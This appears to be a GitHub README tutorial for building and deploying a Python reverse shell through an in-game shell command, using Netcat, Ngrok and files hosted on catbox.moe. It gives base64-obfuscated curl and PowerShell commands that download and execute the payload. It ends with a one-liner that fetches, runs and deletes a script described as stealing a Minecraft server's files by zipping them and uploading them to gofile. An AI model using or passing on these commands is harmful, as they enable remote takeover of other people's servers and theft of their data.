 # Python Reverse Shell Tutorial (Linux and Windows)
you will need [Python](https://www.python.org/downloads/), [Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip), & [Ngrok](https://ngrok.com)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
`ngrok tcp 4444`


4. **Start Netcat**  
`nc -lvp 4444`


5. **Download and Edit Python File**
   - [Download the Python file](https://catlitter.minoa.cat/api/view/bc52bb227eea93ac2dd0.zip) and in rs.py edit the IP and port to be the Ngrok one.
   - (Must have python installed) run windows compile.bat and only if you have wsl setup you can run linux compile.bat and the files that show up are compilex executables.
   - Upload the compiled files to [catbox.moe](https://catbox.moe)

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL for whatever file to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into your Terminal**
   - While in, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
Linux:
`curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)`
`chmod +x {OUTPUT FILE}`
 `./{OUTPUT FILE}`

Windows:
`Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("{BASE64 GOES HERE}"))) -OutFile ([System.IO.Path]::GetFileName(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("{BASE64 GOES HERE}")))))`


8. **Run the File**
Linux:
`chmod +x {OUTPUT FILE}`
 `./{OUTPUT FILE}`
Windows:
`start {OUTPUT FILE}`
 - If there are errors, idk..


# more
## Linux mc server file stealer
```
bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && bash ./steal.sh && rm -- steal.sh'
```
*(downloads and runs [this script](https://catlitter.minoa.cat/api/view/ad0b512a76b50c88ecef.sh) that zips and uploads whatever dir you enter to gofile and gives you the link only on linux)*
